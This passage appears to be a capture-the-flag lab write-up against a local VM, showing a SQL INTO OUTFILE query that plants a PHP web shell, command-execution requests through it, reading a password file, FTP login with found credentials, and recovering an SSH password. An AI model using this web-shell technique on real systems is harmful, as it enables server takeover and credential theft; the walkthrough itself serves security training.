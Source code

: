 After some tests, we finally created a malicious php script in this directory with a SQL Query: 
```
SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/forum/templates_c/script.php'
```
Making a request to the script should execute it:
```
https://192.168.56.112/forum/templates_c/script.php?cmd=whoami
```
It works ! We have now a Remote Code Excution on the machine. </br>

The next step is to found interesting files on the machine. And In the `/home` directory we found the folder `LOOKATME` containing the file `password`:
```
https://192.168.56.112/forum/templates_c/script.php?cmd=cat%20/home/LOOKATME/password
...
lmezard:G!@M6f4Eatau{sF" 
```

### FTP

These credentials are for the ftp account of `lmezard`. Once connected, we found 2 files:
```
ftp> dir
-rwxr-x---    1 1001     1001           96 Oct 15  2015 README
-rwxr-x---    1 1001     1001       808960 Oct 08  2015 fun

$ cat README 
Complete this little challenge and use the result as password for user 'laurie' to login in ssh

$ file fun          
fun: POSIX tar archive (GNU)
```

### Laurie

The tar archive contains `750` files with the extension `.pcap` but these files are actually `ASCII text` files. </br>
And each of them have the same format, the last line is an index identifying the file order and the rest of the file is the content:
```
$ cat YJR5Z.pcap       
#include <stdio.h>

//file1 
```

With a simple script we can gather the code into a c file, compile and execute it. It gives us a string to cipher with the `SHA256` algorithm to get the ssh's password of `laurie`:
```
$ gcc main.c
$ ./a.out   
MY PASSWORD IS: Iheartpwnage
Now SHA-256 it and submit
$ echo -n "Iheartpwnage" | sha256sum         
330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4  -
```
